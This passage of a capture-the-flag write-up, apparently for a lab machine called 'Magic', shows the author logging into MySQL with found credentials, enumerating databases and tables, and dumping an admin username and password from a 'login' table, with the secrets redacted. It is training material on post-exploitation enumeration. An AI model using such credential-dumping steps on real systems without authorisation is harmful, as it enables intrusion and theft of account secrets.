 Connected as Theseus to the MySQL server, discovering a non-default database.

```
mysql -u theseus -p'<REDACTED>' -h localhost -P 3306

MySQL [(none)]> show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| Magic              |
+--------------------+
2 rows in set (0.055 sec)
```

We are close to the user flag. I can smell it!

```
MySQL [(none)]> use Magic;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed

MySQL [Magic]> show tables;
+-----------------+
| Tables_in_Magic |
+-----------------+
| login           |
+-----------------+
1 row in set (0.209 sec)

MySQL [Magic]> describe login;
+----------+--------------+------+-----+---------+----------------+
| Field    | Type         | Null | Key | Default | Extra          |
+----------+--------------+------+-----+---------+----------------+
| id       | int(6)       | NO   | PRI | NULL    | auto_increment |
| username | varchar(50)  | NO   | UNI | NULL    |                |
| password | varchar(100) | NO   |     | NULL    |                |
+----------+--------------+------+-----+---------+----------------+
3 rows in set (0.055 sec)
```

Got new credentials.

```
MySQL [Magic]> select username,password from Magic.login;
+----------+----------------+
| username | password       |
+----------+----------------+
| admin    | <REDACTED>     |
+----------+----------------+
1 row in set (0.055 sec)

MySQL [Magic]> exit
Bye
```
